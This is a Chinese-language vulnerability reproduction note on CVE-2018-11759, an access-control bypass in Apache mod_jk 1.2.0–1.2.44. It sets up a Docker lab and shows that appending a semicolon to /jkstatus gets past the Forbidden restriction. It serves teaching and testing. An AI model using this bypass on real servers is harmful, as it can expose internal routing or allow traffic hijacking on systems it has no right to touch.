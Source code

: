 # Apache-Mod_jk-访问控制权限绕过-CVE-2018-11759

## 漏洞描述

Apache Tomcat JK（mod_jk）Connector是美国阿帕奇（Apache）软件基金会的一款为Apache或IIS提供连接后台Tomcat的模块，用以为Apache或IIS服务器提供处理JSP/Servlet的能力。

由于httpd和Tomcat在路径处理规范上存在差异，因此可以绕过Apache mod_jk Connector 1.2.0版本到1.2.44版本上由JkMount httpd指令所定义端点的访问控制限制。
如果一个只有只读权限的jkstatus的接口可以访问的话，那么就有可能能够公开由mod_jk模块给AJP提供服务的内部路由。
如果一个具有读写权限的jkstatus接口可供访问，我们就能通过修改AJP的配置文件中相关配置来劫持或者截断所有经过mod_jk的流量，又或者进行内部的端口扫描。

## 影响版本

> [!NOTE]
>
> Apache Mod_jk Connector 1.2.0 ~ 1.2.44

## 环境搭建

```
git clone https://github.com/immunIT/CVE-2018-11759.git
docker-conpose up -d
```

访问 http://xxx.xxx.xxx.xxx:80 成功即可

![](Apache-Mod_jk-访问控制权限绕过-CVE-2018-11759.assets/162736345855006.jpg)

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/jkstatus 显示无权限访问

```
Forbidden
You don't have permission to access /jkstatus on this server.
```

![](Apache-Mod_jk-访问控制权限绕过-CVE-2018-11759.assets/1627363458755392.jpg)

访问  http://xxx.xxx.xxx.xxx/jkstatus; 即可绕过

> [!NOTE]
>
> 注意是在url后面加上了一个;

![](Apache-Mod_jk-访问控制权限绕过-CVE-2018-11759.assets/1627363459098615.jpg)

